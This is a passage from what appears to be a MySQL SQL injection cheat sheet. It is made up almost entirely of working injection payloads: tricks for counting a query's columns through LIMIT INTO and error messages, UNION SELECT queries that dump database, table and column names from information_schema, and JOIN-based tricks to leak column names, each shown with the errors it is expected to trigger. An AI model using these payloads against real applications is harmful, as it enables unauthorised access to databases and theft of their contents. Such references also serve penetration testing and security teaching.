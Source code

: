 It is useful for finding the number of columns when the injection point is after a LIMIT clause.
```sql
1' LIMIT 1,1 INTO @--+        #The used SELECT statements have a different number of columns
1' LIMIT 1,1 INTO @,@--+      #The used SELECT statements have a different number of columns
1' LIMIT 1,1 INTO @,@,@--+    #No error means query uses 3 column
                              #-1' UNION SELECT 1,2,3--+	True
```
##### Using `SELECT * FROM SOME_EXISTING_TABLE` Error Based
This works if you know the table name you're after and error showing is enabled.

It will return the amount of columns in the table, not the query.

```sql
1' AND (SELECT * FROM Users) = 1--+ 	#Operand should contain 3 column(s)
                                        # This error means query uses 3 column
                                        #-1' UNION SELECT 1,2,3--+	True
```
### Extract database with information_schema

Then the following codes will extract the databases'name, tables'name, columns'name.

```sql
UniOn Select 1,2,3,4,...,gRoUp_cOncaT(0x7c,schema_name,0x7c)+fRoM+information_schema.schemata
UniOn Select 1,2,3,4,...,gRoUp_cOncaT(0x7c,table_name,0x7C)+fRoM+information_schema.tables+wHeRe+table_schema=...
UniOn Select 1,2,3,4,...,gRoUp_cOncaT(0x7c,column_name,0x7C)+fRoM+information_schema.columns+wHeRe+table_name=...
UniOn Select 1,2,3,4,...,gRoUp_cOncaT(0x7c,data,0x7C)+fRoM+...
```

### Extract columns name without information_schema

Method for `MySQL >= 4.1`.

First extract the column number with 
```sql
?id=(1)and(SELECT * from db.users)=(1)
-- Operand should contain 4 column(s)
```

Then extract the column name.
```sql
?id=1 and (1,2,3,4) = (SELECT * from db.users UNION SELECT 1,2,3,4 LIMIT 1)
--Column 'id' cannot be null
```

Method for `MySQL 5`

```sql
-1 UNION SELECT * FROM (SELECT * FROM users JOIN users b)a
--#1060 - Duplicate column name 'id'

-1 UNION SELECT * FROM (SELECT * FROM users JOIN users b USING(id))a
-- #1060 - Duplicate column name 'name'

-1 UNION SELECT * FROM (SELECT * FROM users JOIN users b USING(id,name))a
...
```
